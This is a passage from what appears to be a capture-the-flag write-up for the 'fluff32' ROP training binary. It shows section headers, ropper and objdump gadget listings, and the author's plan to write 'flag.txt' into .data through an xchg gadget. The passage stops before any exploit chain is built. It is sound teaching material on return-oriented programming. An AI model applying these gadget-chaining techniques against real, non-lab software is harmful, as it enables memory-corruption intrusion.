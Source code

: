 ```
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000216 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 0016a2 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation), ideally. First let's see what `mov` gadgets we get to work with at all.
`ropper -f fluff32 --search 'mov'`:
```
[INFO] File: fluff32
0x080484e7: mov al, byte ptr [0xc9010804]; ret;
0x0804846d: mov al, byte ptr [0xd0ff0804]; add esp, 0x10; leave; ret;
0x080484ba: mov al, byte ptr [0xd2ff0804]; add esp, 0x10; leave; ret;
0x080484e4: mov byte ptr [0x804a020], 1; leave; ret;
0x0804854f: mov eax, 0xdeadbeef; ret;
0x08048543: mov eax, ebp; mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
0x080484b2: mov ebp, esp; sub esp, 0x10; push eax; push 0x804a020; call edx;
0x08048466: mov ebp, esp; sub esp, 0x14; push 0x804a020; call eax;
0x080484da: mov ebp, esp; sub esp, 8; call 0x450; mov byte ptr [0x804a020], 1; leave; ret;
0x08048545: mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
0x08048423: mov ebx, dword ptr [esp]; ret;
0x0804837d: mov edi, 0x81000000; ret;
0x08048548: mov edx, 0x62e2c4b0; cmc; sar byte ptr [eax - 0x21524111], 1; ret;
0x0804847a: mov esp, 0x27; add bl, dh; ret;
```
Not a whole lot to work with here, so let's see what's in the hinted `questionableGadgets` function:
`objdump -d -Mintel fluff32 | grep questionableGadgets -A 13`:
```
08048543 <questionableGadgets>:
 8048543:       89 e8                   mov    eax,ebp
 8048545:       bb ba ba ba b0          mov    ebx,0xb0bababa
 804854a:       c4 e2 62 f5 d0          pext   edx,ebx,eax
 804854f:       b8 ef be ad de          mov    eax,0xdeadbeef
 8048554:       c3                      ret
 8048555:       86 11                   xchg   BYTE PTR [ecx],dl
 8048557:       c3                      ret
 8048558:       59                      pop    ecx
 8048559:       0f c9                   bswap  ecx
 804855b:       c3                      ret
 804855c:       66 90                   xchg   ax,ax
 804855e:       66 90                   xchg   ax,ax
```
Some weird gadgets but this might just be enough for us to work with. Gadget `8048555` is an `xchg` which will let us swap data between operands. This is how we can write to `.data`. But we'll need to get our `.data` address into `ecx` first.
